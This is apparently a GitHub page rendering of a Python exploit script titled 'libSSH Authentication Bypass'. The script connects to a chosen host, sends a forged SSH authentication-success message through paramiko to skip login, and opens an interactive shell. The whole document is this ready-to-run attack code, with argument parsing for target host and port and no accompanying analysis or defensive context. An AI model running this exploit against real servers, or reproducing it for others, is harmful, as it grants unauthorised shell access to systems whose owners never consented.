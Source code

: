 EXP
---

    #!/usr/bin/env python3
    import paramiko
    import socket
    import argparse
    from sys import argv, exit


    parser = argparse.ArgumentParser(description="libSSH Authentication Bypass")
    parser.add_argument('--host', help='Host')
    parser.add_argument('-p', '--port', help='libSSH port', default=22)
    parser.add_argument('-log', '--logfile', help='Logfile to write conn logs', default="paramiko.log")

    args = parser.parse_args()


    def BypasslibSSHwithoutcredentials(hostname, port):

        sock = socket.socket()
        try:
            sock.connect((str(hostname), int(port)))

            message = paramiko.message.Message()
            transport = paramiko.transport.Transport(sock)
            transport.start_client()

            message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
            transport._send_message(message)

            spawncmd = transport.open_session()
            spawncmd.invoke_shell()
            return 0

        except paramiko.SSHException as e:
            print("TCPForwarding disabled on remote/local server can't connect. Not Vulnerable")
            return 1
        except socket.error:
            print("Unable to connect.")
            return 1


    def main():
        paramiko.util.log_to_file(args.logfile)
        try:
            hostname = args.host
            port = args.port
        except:
            parser.print_help()
            exit(1)
        BypasslibSSHwithoutcredentials(hostname, port)

    if __name__ == '__main__':
        exit(main())